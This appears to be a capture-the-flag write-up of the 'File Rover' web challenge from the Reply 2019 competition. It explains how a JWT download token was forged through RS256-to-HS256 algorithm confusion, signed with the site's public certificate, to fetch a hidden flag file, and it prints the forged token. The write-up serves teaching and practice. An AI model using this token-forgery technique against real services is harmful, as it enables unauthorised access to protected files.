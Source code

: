 ```yaml
---
title: "File Rover - Web - Reply Challenge 2019"
date: 2019-10-13T12:31:30+02:00
tags: [Reply cyber security 2019, Web, JWT]
draft: false
---
```


In this challenge we had a [link](https://gamebox3.reply.it:20443/) to a site.
The first thing that was peculiar about it was the invalid certificate. After
telling the browser to ignore it, we were presented with a some download links:

![](/images/reply-2019/download.png)

Reading the source code of the page we can see an old commented link to a file
called `flag.txt`:
```html
<tr>
    <td>flag.txt</td>
    <td>4 Bytes</td>
    <td class="download-col">
        <button type="button" class="btn btn-light" disabled="disabled">EXPIRED</button>
    </td>
</tr>
```

The link for `future.jpg` points to
```
download.php?file=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmaWxlbmFtZSI6IjdiNDIxZ
GYxMWE1M2UzM2Q5MjllZjRjMDI1Zjc5ZjgzIn0.dNHioi9RiEpyUtcOD6G5CBXU0EUi2HTl05eOvkFec
myoFyn5CWq5ExbwYLX8QE85qBaskOT-mtq3_XWwTxmGIKhPg8eOVuqqhU7nCg2eEdKwp-mjaPBnmDfBi
nvcfXEhItLi8T1hmMVgxaWSxQ1ZZKu4t-SFbuHOgesE6s9oBBiFMX92HSJbE3PnpAp6y6CYsI4hXBdzf
AXERfmV0lV8-SRtKgKFwVTI-zmBlEGSReszw-NoDgGfFGF9e1tKjVb8sE3o5IYv5M5AmDjs8qWe5JO39
IQeTJqn4r6Db6zPWjHKlheqFLrfytWQF9MvjDRU5CIu3tIRWYnylnVUA3Slrw
```

I recognized the `JWT` token structure and used [jwt.io](https://jwt.io) to read
it. The header is:
```json
{
  "typ": "JWT",
  "alg": "RS256"
}
```
so a `rsa 256` key was used to sign the token, and the payload is:
```json
{
  "filename": "7b421df11a53e33d929ef4c025f79f83"
}
```

The immediate thought was that the `filename` parameter could be the hash of the
filename, and it was indeed:
```bash
$ echo -n "future.jpg" | md5sum
7b421df11a53e33d929ef4c025f79f83  -
```

We could try to use the hash of `flag.txt` to create our own token but we need
the key used to create it. A quick bruteforce try with some tools and wordlists
did not work, and after a bit of research we found an [article](https://habr.com/en/post/450054/) explaining a
vulnerability that allowed to make the server use the public key to verify the
signature instead of the private key. Remembering that the web site certificate
was invalid, we thought about trying to use it to create to custom token to
download `flag.txt`.
Here is the final token:
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmaWxlbmFtZSI6IjE1OWRmNDg4NzU2MjdlMmY3ZjY2ZGFlNTg0YzVlM2E1In0.gkPHJYEXF0WEpvwzI4FxDkFGoG6dpBvVMhq6ibsl28w
```

## Flag
```
{FLG:n0_b4ckup_n0_m3rcy}
```
